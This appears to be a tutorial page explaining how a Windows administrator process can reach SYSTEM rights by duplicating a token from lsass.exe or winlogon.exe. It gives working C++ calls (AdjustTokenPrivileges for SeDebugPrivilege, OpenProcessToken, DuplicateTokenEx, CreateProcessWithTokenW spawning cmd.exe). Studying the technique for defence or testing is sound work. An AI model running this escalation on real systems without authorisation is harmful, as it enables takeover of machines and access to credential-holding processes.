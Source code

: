 # System Token Impersonation

## Tokens

Each process has its own corresponding [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_EPROCESS) in kernel, it contains all the information about a process, includin it's PID, loaded modules, virtual address space and much more information. Today we will focus on a field which can be found deep down in _EPROCESS, which is the [_TOKEN](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_TOKEN) structures. It contains a token that contains the information about the rights a process has, it tells wether a process runs as user, admin or system. We will now focus on going from admin to system.

## Steps

Before doing anything else, we will need to grant our own process the `SeDebugPrivilege` privilege, it is the highest rights a usermode process can have. We can do so by looking up the `LUID` value corresponding to SeDebugPrivilege by using `LookupPrivilegeValueA`. We can then set the luid of our own token to it and call `AdjustTokenPrivileges` to apply the new token to ourselves :

```cpp
bool enable_debug_priv(HANDLE hToken)
{
	TOKEN_PRIVILEGES token_priv;
	LUID luid;

	if (!LookupPrivilegeValueA(0, "SeDebugPrivilege", &luid))
		return false;

	token_priv.PrivilegeCount = 1;
	token_priv.Privileges[0].Luid = luid;
	token_priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	if (AdjustTokenPrivileges(hToken, FALSE, &token_priv, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)0, (PDWORD)0))
		return true;
	else
		return false;
}
```
\
Our target process needs to have system rights, we will need to open a handle to it, and to it's token. Of course, we can't do these to the system process with pid 4. However we can do it on other processes that have the required rigths such as `winloging.exe` or `lsass.exe`. Here is the general idea :

![image](https://media.discordapp.net/attachments/780153367305256981/1019982190114766929/unknown.png?width=593&height=605)
\

In this example we first open a handle to lsass with the most limited information possible which are PROCESS_QUERY_INFORMATION. We can then open a handle to the token of that process using `OpenProcessToken` with flags, the main one being TOKEN_DUPLICATE which we will need later. We then call `ImpersonateLoggedOnUser` which is needed for token impersonation. So far we have this :

```cpp
OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, PID);
OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken);
ImpersonateLoggedOnUser(hToken);
```


Now for the most intereseting part, we will use `DuplicateTokenEx` to, as the name suggests, duplcate the token of the target process and store it: 

```cpp
DuplicateTokenEx(hToken, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY |
    TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, 0, SecurityImpersonation, TokenPrimary, &hDupToken);
```

We can then use the `CreateProcessWithTokenW` (no ANSI version 👎) to spwan a process, and specify the token that it wll have when created. We wll supplu the token we duplcated earlier : 

```cpp
CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", 0, 0, 0, 0, 
    (LPSTARTUPINFOW)&startup_info, &process_info);
```

## Showcase

![image](https://cdn.discordapp.com/attachments/780153367305256981/1020005729031180411/demo_token.gif)

